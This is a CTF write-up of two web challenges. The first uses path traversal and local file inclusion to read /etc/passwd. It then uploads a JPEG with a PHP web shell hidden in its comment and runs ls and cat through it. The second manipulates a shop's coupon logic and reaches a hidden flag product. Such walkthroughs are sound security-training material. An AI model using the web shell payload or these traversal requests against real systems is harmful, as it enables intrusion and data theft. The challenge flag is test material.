

# Web

##Local Fun Inclusion

## Local Fun Inclusion

**Challenge**

"Recently i learned how to code in PHP. There are cool tutorials for file uploads around! Imgur Memes have no chance vs. my cool image sharing website!

Check it out at: http://lfi.hax1.allesctf.net:8081/"

**Solution**

**Information Gathering:**
The website only allows uploading image files. 
When hitting the **Submit** button without choosing an image, the URL contains a new request `site=upload.php`.
This is a first hint for a **Local File Inclusion** vulnerability. To verify this assumption call the following URL: 

> http://lfi.hax1.allesctf.net:8081/index.php?site=/../../../etc/passwd

We receive the content of **/etc/passed** 

Unfortunately we can't call  

> http://lfi.hax1.allesctf.net:8081/index.php?site=flag.txt

 to get the flag. We probably need a way to read the directories in order to find out what we're looking for.

The page tells you the storage location when uploading an image. This can be used to upload our **own php** code which can be executed with the **Local File Inclusion** vulnerability.
Unfortunately, uploading php files is forbidden by the server. We need an image file with the correct file extension and magic number. Hence, we have to fool the server, by uploading an image file containing php code.

**Exploit Image**:
To generate an empty image we can use the tool **convert**:

> $ convert -size 32x32 xc:white empty.jpg

Now adding your **own php code** to the image comments with **exiftool**:

> $ exiftool -Comment="<?php echo shell_exec($_GET['cmd']); ?>" empty.jpg

(I needed to add **$_GET** manually with vim after executing this command, as it has been removed)

This simple php code `<?php echo shell_exec($_GET['cmd']); ?>` only takes a **GET-Parameter** `cmd` and executes the value as a command. Our goal is to upload this image and execute it with `[BaseURL]/index.php/site=[ImageLocation]&cmd=[arbitraryShellCommand]`. With this approach we can pass arbitrary shell commands, like `ls` to read the directories, or `cat` to read file content.

So we upload this new image and getting the corresponding file location.
Now take the URL and use **Burp** to craft our different requests:
Activate the **Burp proxy** and do a request like `lfi.hax1.allesctf.net:8081/index.php?site=`.
The **Burp proxy** will intercept this request and we can send it to the **Burp Repeater**.

Now just append the file location the the **GET-Request** in the **Burp Repeater**.
The following **GET**-Request will list the files of the current direcotry in the response (Keep in mind that the upload location is different for every upload):
> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=ls

We can see the `flag.php` file, so we are one step away from the flag. By doing another **GET**-Request we can print the content of this file and receive the flag:

> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=cat%20flag.php

##StayWoke Shop

**Challenge**

"Are you missing some essential items that were sold out in your local supermarket? You can easily stock up on these in my shop:
http://staywoke.hax1.allesctf.net/"

**Solution**

The Challenge is a web shop, which offers different products for 1€ each. 
These can be added to the shopping cart. In addition, we receive a 20% discount coupon through a scrolling news text (**I<3CORONA**). 

So let's search for a weak point. The coupon code seems to be a good starting point. 
Lets start burp and try to play around with the post and get requests of the shop.
My first thought was posting the same coupon multple times to the server, but this didnt change my wallet ballance or anything else.

While playing around with the shop i relized that the discount amount of the coupon was calculates from the current cart balance.
If you have a shopping card with a sum of product cost of 10€, and you use the discount coupon, the "product" **"coupon"** is added to you card.
This product now has costs **"-2€"**. If we remove now the products from our current cart, this amount remains unchanged.
This allows us to buy any of these products. 
Unfortunately buying one of these Products does not give us the flag.
Also the cart is limited to an amount of 10 products so we cant buy all at once.

So lets keep looking for something odd.

While looking at the intercepted requests in burp i relized that the products are indexed with numbers.
I added the product get-request to the repeater and tried the different numbers to see if there is any hidden product.
And yes, there is a product "flag" at the index 1 (GET /products/1 HTTP/1.1), which costs 1337€.

IMAGE

The rest is pretty easy.
I intercepted a product request of an arbitrary product with burp and changed the requested product index to 1.
Now we have one flag product in our cart.
The next step is adding 10 of these flag products to the cart and use the coupon.
With the coupon we now have 20% of the current costs as a negative value in the cart.
Remove the flags until the balance is high enough to buy a flag.
Now only hit the buy-botton while using the payment option "w0kecoint" with an arbitrary account number.

This will lead us to the order conformation which show us the flag: **CSCG{c00l\_k1ds\_st4y\_@\_/home/}**

To avoid this security issue the discount has to be calculated everytime the cart has changed.
